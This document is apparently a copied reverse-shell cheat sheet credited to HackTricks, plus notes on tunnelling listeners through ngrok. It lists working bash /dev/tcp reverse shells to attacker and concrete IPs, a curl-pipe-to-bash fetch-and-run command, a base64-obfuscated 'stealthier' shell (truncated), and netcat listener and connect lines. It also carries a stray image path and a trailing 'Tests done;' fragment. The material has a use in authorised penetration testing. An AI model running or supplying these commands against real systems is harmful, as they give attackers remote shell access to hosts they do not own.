 From https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux 

## Bash | sh

curl https://reverse-shell.sh/1.1.1.1:3000 | bash
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1
bash -i >& /dev/udp/127.0.0.1/4242 0>&1 #UDP
0<&196;exec 196<>/dev/tcp/<ATTACKER-IP>/<PORT>; sh <&196 >&196 2>&196
exec 5<>/dev/tcp/<ATTACKER-IP>/<PORT>; while read line 0<&5; do $line 2>&5 >&5; done

## Short and bypass (credits to Dikline)
(sh)0>/dev/tcp/10.10.10.10/9091
#after getting the previous shell to get the output to execute
exec >&0

## Symbol safe shell

## If you need a more stable connection do:
bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'

## Stealthier method
#B64 encode the shell like: echo "bash -c 'bash -i >& /dev/tcp/10.8.4.185/4444 0>&1'" | base64 -w0
echo bm9odXAgYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjQuMTg1LzQ0NDQgMD4mMScK | base64 -d | b




## ngrok

ngrok is a tool to expose solutions to Internet in one command line.
Exposition URI are like: UID.ngrok.io
Installation

    Create an account: https://ngrok.com/signup

    Client download:

tar xvzf ~/Downloads/ngrok-v3-stable-linux-amd64.tgz -C /usr/local/bin
chmod a+x ./ngrok
 Init configuration, with your token
./ngrok config edit

Basic usages

Documentation: https://ngrok.com/docs/getting-started/.

It is also possible to add authentication and TLS, if necessary.
Tunneling TCP

# Pointing to 0.0.0.0:4444 
./ngrok tcp 4444
# Example of resulting link: 0.tcp.ngrok.io:12345
# Listen (example): nc -nvlp 4444
# Remote connect (example): nc $(dig +short 0.tcp.ngrok.io) 12345

## Exposing files with HTTP

./ngrok http file:///tmp/httpbin/
# Example of resulting link: https://abcd-1-2-3-4.ngrok.io/

## Sniffing HTTP calls

Useful for XSS,SSRF,SSTI ...
Directly from stdout or in the HTTP interface http://127.0.0.1:4040.
Tunneling internal HTTP service

./ngrok http localhost:8080 --host-header=rewrite
# Example of resulting link: https://abcd-1-2-3-4.ngrok.io/
# With basic auth
./ngrok http localhost:8080 --host-header=rewrite --auth="myuser:mysuperpassword"


Tests done; 


